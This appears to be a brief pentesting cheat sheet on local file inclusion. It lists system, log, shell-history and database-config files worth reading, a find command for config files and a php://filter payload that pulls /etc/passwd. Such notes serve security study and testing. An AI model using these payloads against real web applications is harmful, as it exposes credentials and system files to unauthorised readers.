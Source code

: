 # LFI

usually happens when you have dynamic content based on a parameter

## common files

/etc/knockd.conf /etc/default/knockd /etc/issue /etc/motd /etc/group /etc/passwd /var/www/html/.htaccess /etc/httpd/logs/acces\_log /etc/httpd/logs/error\_log /var/www/logs/access\_log /var/www/logs/access.log /usr/local/apache/logs/access\_log /usr/local/apache/logs/access.log /var/log/apache/access\_log /var/log/apache2/access\_log /var/log/apache/access.log /var/log/apache2/access.log /var/log/access\_log

## user home directory and root

.bash\_history .mysql\_history .my.cnf .profile

## configuration files

`find / -type f 2>/dev/null | grep -i conf` db/db.php db.php session.php config.php mysql.conf

## common things during LFI

?page=php://filter/convert.base64-encode/resource=/etc/passwd User-Agent: Mozilla/5.0 like Gecko

